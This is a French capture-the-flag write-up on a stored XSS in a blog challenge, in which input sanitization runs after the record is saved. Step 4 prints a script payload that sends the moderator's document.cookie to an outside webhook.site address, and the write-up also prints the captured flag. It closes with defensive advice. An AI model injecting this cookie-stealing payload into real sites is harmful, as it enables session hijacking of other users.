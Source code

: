 ### **Exploitation d'une faille XSS dans un blog avec visite de modérateur**

![Screenshot](images/blog_chall.png)

Dans ce challenge, on a un blog avec un système d'enregistrement et de connexion des utilisateurs.  
On sait que l'**admin (ou le bot modérateur) visitera notre profil** lorsqu'on s'enregistre et lorsqu'on poste un article.

Un **leak du code source** est également présent.

![Screenshot](images/blog_leak.png)

---

### **Étape 1 : Analyser le code source**

En regardant le leak de code, on remarque une **tentative de sanitization** des champs, mais celle-ci est effectuée **après le `.save()`**, ce qui signifie que **même si une erreur s'affiche, les données sont déjà enregistrées en base**.

Le modérateur va **visiter notre profil** après la création du compte et l'ajout d'un article.

---

### **Étape 2 : Tester une première injection XSS**

J'ai d'abord essayé un payload XSS basique :

`<script> alert(1) </script>`

Mais une erreur s'affiche :

![Screenshot](images/blog_error.png)

---

### **Étape 3 : Déterminer quel champ est vulnérable**

J'ai testé différents payloads en créant plusieurs comptes pour identifier **le champ exploitable**.

Après avoir obtenu un token d'enregistrement, j'ai accédé à mon profil via `/user?token=$token`.

![Screenshot](images/blog_alert1.png)

![Screenshot](images/blog_alert.png)

Résultat : Un `alert(2)` s'affiche, **confirmant que le champ `name` est vulnérable**.

---

### **Étape 4 : Exploiter la faille avec un vol de cookie**

Maintenant que l'on sait que le champ `name` est exploitable, nous allons injecter un payload XSS pour voler le cookie du modérateur.

Payload utilisé :

`<script> window.location.href = "https://webhook.site/66a3fb27-4a91-4cae-8c0e-a5f9dd8385e1?cookie=" + document.cookie </script>`

Nous enregistrons un compte avec ce **payload dans le champ `name`**, et attendons que le modérateur visite notre profil.

Le payload est exécuté, et redirige vers notre **webhook** qui capture le cookie du modérateur.

![Screenshot](images/blog_webhook.png)!

---

### **Étape 5 : Création d'un article pour finaliser l'attaque**

Pour maximiser nos chances d'exécution, nous créons également un article sur le blog avec le même payload.

[Screenshot](images/blog_article.png)

Après un moment, nous vérifions notre **endpoint webhook**, et **le cookie contenant le flag est capturé !**

🔗 **URL du webhook avec le flag récupéré :**  
`https://webhook.site/66a3fb27-4a91-4cae-8c0e-a5f9dd8385e1?cookie=FLAG=HACKDAY{0rd3R_M4tteRs_In_Ur_C0d3!!!!}`

---

### **Conclusion**

Ce challenge démontre l'importance d'un **bon ordre des opérations** dans le code d'une application web.  
Ici, la **sanitization des entrées après enregistrement** a permis d'exploiter un **XSS stored**, ce qui a conduit à une **compromission totale** via le vol de session du modérateur.

➡ **Protection contre ce type d'attaque :**

- Toujours **sanitiser et valider les entrées avant de les enregistrer**.
- Activer `HttpOnly` sur les cookies pour éviter leur vol via JavaScript.
- Utiliser **Content Security Policy (CSP)** pour limiter l'exécution de scripts malveillants.
- Mettre en place des **filtres stricts** sur les champs utilisateur.